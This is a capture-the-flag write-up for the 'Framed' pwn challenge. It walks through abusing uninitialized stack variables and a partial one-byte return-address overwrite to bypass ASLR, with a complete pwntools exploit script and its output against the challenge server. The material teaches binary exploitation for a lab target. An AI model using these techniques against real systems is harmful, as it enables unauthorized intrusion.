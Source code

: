 # Framed (pwn)

## Task
>If you're not careful enough you can get framed into something you didn't do!
>
> * ``nc framed.zajebistyc.tf 17005``
> * [https://omh2021.fra1.cdn.digitaloceanspaces.com/ef450372fa91137eb9cdc53d34b466cba26a323c0f0f2e2351a284c579526595_framed.tar.gz](https://omh2021.fra1.cdn.digitaloceanspaces.com/ef450372fa91137eb9cdc53d34b466cba26a323c0f0f2e2351a284c579526595_framed.tar.gz)

We were given a sample binary to analyze & a vulnerable server to exploit in order to get the flag.

# Analysis

## Overview

Running checksec on the challenge file shows:
```
Arch:     amd64-64-little
RELRO:    Full RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      PIE enabled
```

The file itself is constructed from two functions called from ``main``: 
* ``hello`` - Asks for your name & store the string on the stack. Annoyingly, it almost vulnerable for buffer overflow, but not actually overflows.
* ``feeling_lucky`` - has a buffer overflow in it, but requires you to win a 'game of chance' first(which, is not in your favor) in order to trigger the overflow. 
 

``feeling_lucky`` is below:

![img1](./images/loop-vars.png)

You enter the 'amount of shuffles' you want to perform as a player and the program runs in a loop (notice the ``loc_A6A`` branch) to generate numbers with ``_rand``. 

If you're lucky enough, you'll get a message saying ``Seems you're lucky!`` following a prompt that lets you write ``0x1337`` bytes into memory. If not, it will jump straight to a  ``Nope :(`` message.

So our goal is to be lucky enough, but we can't rely on ``_rand`` to actually help us with this.

## Exploitation part 1 - getting luck(y)

* When ``hello``, asks for your name, we fill the buffer and make sure to put ``0xdeadbeefcafebabe`` in it. 
* When ``feeling_lucky`` asks us _'How many shuffles?'_, we answer 0. This will jump straight to the comparasion of "un-initilized" variables. Those variables values' will be the values from the previous stack frame(from ``hello``) 😈
* This will allow us to get a _"Seems you're lucky!"_ message and unlock the vulnerable part for buffer overflow(bottom left in the screenshot above)

After unlocking the _"Seems you're lucky!"_ message, we need to continue exploitation & overcome other protections(NX/ASLR).


## Exploitation part 2 - getting the flag

It's good that the binary already has a ``flag`` function that prints the flag. However, ASLR is enabled and we don't know where this function is located in memory on the destination server.

When digging into the binary more, I realized we don't even have to get a leak / break ASLR and know the full address of ``flag``. This is because ``flag`` and ``main+71``(=the return address of ``feeling_lucky``) are both allocated in the same page. 

Yes, it's a random page(due to ASLR), but they are both allocated in the **same page** in memory(notice that the only difference is just one byte. ``0x1b`` <~> ``0x14``)

![img2](./images/samepage.png)


Hence: instead of overwriting the entire return address, we can just overwrite the least significant byte of it(replacing ``0x14`` with ``0x1b``). This will return us back to ``flag`` instead of ``main+71`` without having to know the full address of ``flag`` in memory.

![img2](./images/lol.png)


backtrace before:
```
───────────────────[ BACKTRACE ]───────────────────
 ► f 0     56279e198aa3 feeling_lucky+162
   f 1     56279e198b14 main+71
   f 2     7f5d813f90b3 __libc_start_main+243
───────────────────────────────────────────────────
````

backtrace after:

```
───────────────────[ BACKTRACE ]───────────────────
 ► f 0     56279e198aa8 feeling_lucky+167
   f 1     56279e198b1b flag
   f 2                0
───────────────────────────────────────────────────
```

Now all we do is wait for a ``ret`` instruction :D

# Solution

I added inline comments

```py
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

exe = context.binary = ELF('./chall_framed')

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:
        return remote('framed.zajebistyc.tf', 17005)
    else:
        return process([exe.path] + argv, *a, **kw)

# ./solve.py GDB
gdbscript = '''
tbreak main
# break *0x0000555555554aa3
continue
'''.format(**locals())

io      = start()
RBP_OFF = 0x30 # (rbp - dst_buffer) = 0x30


# prepping the stack frame for the next call
payload  = b'A'*(RBP_OFF)
payload += p64(0xcafebabedeadbeef) 
io.sendlineafter(b'name?', payload) 


# abusing `feeling_lucky()` and unlocking the hidden BOF 
io.sendlineafter(b'shuffles?', b'0') # 0 shuffling in order to abuse the uninitialized variables 
                                     # on the stack from the previous frame


# after winning the game, procceed with a regular stack-based BOF 
payload = b'B'*(RBP_OFF+0x8) 
payload += b'\x1b' # overwriting the LSB(least significant byte) of ret addr with '0x1b', this  
                    # allows to overcome ASLR. Because the `flag` function and 
                    # `main` are allocated in the same (random) page in memory,
                    # we can just overwrite the last byte to re-direct code execution
                    # to another function and not main without knowing the full random address.
io.recvuntil(b'Seems you')
io.send(payload)
io.interactive() # profit
```

output:
```
root@56bec2e1a941:~/ctfs/omh2021/framed# python3 solve.py REMOTE
[*] '/root/ctfs/omh2021/framed/chall_framed'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to framed.zajebistyc.tf on port 17005: Done
[*] Switching to interactive mode
!
Read 57 payload bytes
flat{uninitialized_variables_are_not_really_uninitialized}
```